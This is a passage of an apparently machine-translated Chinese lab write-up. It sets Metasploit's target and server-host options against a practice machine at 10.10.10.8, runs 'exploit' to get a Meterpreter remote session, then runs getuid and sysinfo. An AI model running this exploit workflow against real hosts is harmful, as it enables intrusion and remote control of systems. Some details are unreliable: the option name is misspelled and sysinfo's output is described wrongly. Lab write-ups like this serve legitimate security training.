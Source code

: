 ```
set RHOSTS 10.10.10.8
```

我设置了 **SRHVOST**

```
set SRHVOST 10.10.14.23
```

当我检查选项时，我得到这个

![Screenshot-2019-10-07-at-23.05.33](img/832274670f4fc439dbf567bc5589ea1f.png)

然后，我用以下命令运行漏洞利用

```
exploit
```

我得到了一个**米普雷特**会话

从[攻击性安全](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)网站上，我们得到了对 Meterpreter 的定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

![Screenshot-2019-10-07-at-23.07.56](img/dc71e8a62aa43ea582210c15025d1eea.png)

让我们从收集一些信息开始

**getuid** 返回调用进程的真实用户 id， **sysinfo** 返回内存和交换空间使用的统计数据，以及平均负载

![Screenshot-2019-10-07-at-23.11.30](img/605c0bd12f4ffc293a057d5eeea64a23.png)
